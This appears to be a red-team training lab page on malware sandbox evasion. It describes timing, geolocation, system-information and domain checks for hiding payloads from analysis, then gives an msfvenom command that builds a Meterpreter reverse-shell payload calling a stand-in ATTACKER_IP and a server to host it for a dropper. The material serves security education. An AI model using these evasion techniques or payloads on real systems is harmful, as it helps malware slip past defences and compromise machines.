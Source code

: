 # An Introduction to Sandbox Evasion

Now that you have a general idea of what malware sandboxes are, let's explore some high-level evasion techniques. We'll break these down into four categories. In the next task, you'll implement one technique from each category for practical experience in Red Team operations.

## Categories of Sandbox Evasion

1. **Sleeping through Sandboxes**
2. **Geolocation and Geoblocking**
3. **Checking System Information**
4. **Querying Network Information**

These are ordered from the most basic to the most advanced.

---

## 1. Sleeping through Sandboxes

Malware sandboxes often have time constraints to manage resources. You can exploit this by making your payload sleep for longer than the sandbox's analysis window (e.g., 5 minutes) before executing malicious actions. This can be done by:

- Implementing a custom sleep function (since built-in sleep functions may be patched or monitored).
- Performing compute-heavy operations (e.g., calculating the Fibonacci sequence) to delay execution.

**References:**
- [Checkpoint: Timing Evasions](https://evasions.checkpoint.com/src/Evasions/techniques/timing.html)
- [Joe Security: Bypassing Sleep Functions](https://www.joesecurity.org/blog/660946897093663167)

---

## 2. Geolocation

Sandboxes are often hosted by antivirus providers in data centers. If your payload detects it's running in an unexpected location (e.g., a different country or ISP), it can refuse to execute.

- Use services like [ifconfig.me](https://ifconfig.me) to get the current IP address.
- Use [ARIN RDAP](https://rdap.arin.net/registry/ip/1.1.1.1) to check IP ownership.

> **Note:** This method requires internet access and may be blocked by some organizations.

---

## 3. Checking System Information

Sandboxes typically have minimal resources (e.g., 1 CPU core, 4GB RAM). You can check for:

- CPU core count
- RAM amount
- Disk size
- Storage medium serial number
- PC hostname
- BIOS/UEFI version/serial
- Windows product key/OS version
- Network adapter info
- Virtualization checks
- Current signed-in user

If the system specs are suspiciously low or generic, your payload can avoid execution.

---

## 4. Querying Network Information

Most sandboxes are not joined to a domain. You can query for:

- Domain membership
- Computers
- User accounts
- Last user logins
- Groups (e.g., Domain Admins)
- Domain controllers
- Service accounts
- DNS servers

A simple check of environment variables (e.g., `LogonServer`, `LogonUserSid`, `LogonDomain`) can be effective.

---

## Setting the Stage

With an understanding of sandbox evasion methods, you'll now implement some of these techniques.

We'll start with a basic dropper that retrieves shellcode from a web server (`/index.raw`), injects it into memory, and executes it. Ensure your shellcode is:

- Generated with MSFVenom in raw format
- 64-bit (not 32-bit)

**Example:**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
```

Host the shellcode using Python's HTTP server:

```bash
python3 -m http.server 8080
```

> In real scenarios, you might use a C2 server, but for this lab, use the AttackBox.

The provided `dropper.cpp` has placeholder values (lines 16, 22, 24, 27, 33) you must update. Compile for a 64-bit release using Visual Studio 2019 or later.
